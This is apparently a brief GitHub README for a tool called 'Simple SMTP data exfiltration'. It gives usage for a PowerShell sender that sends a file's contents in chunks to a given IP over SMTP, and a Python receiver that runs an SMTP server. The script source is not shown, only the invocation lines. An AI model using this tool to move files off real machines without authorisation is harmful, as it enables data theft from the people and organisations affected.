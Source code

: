 # Simple SMTP data exfiltration

SENDER:
.\sender.ps1 [file_path] [ip]

Sends the content of a file to the given IP, using the SMTP protocol.
If the file size is > than 5MB, it'll be divided into chunks.

RECEIVER:
pip install -r requirements.txt
python3 receiver.py

Simple SMTP server.
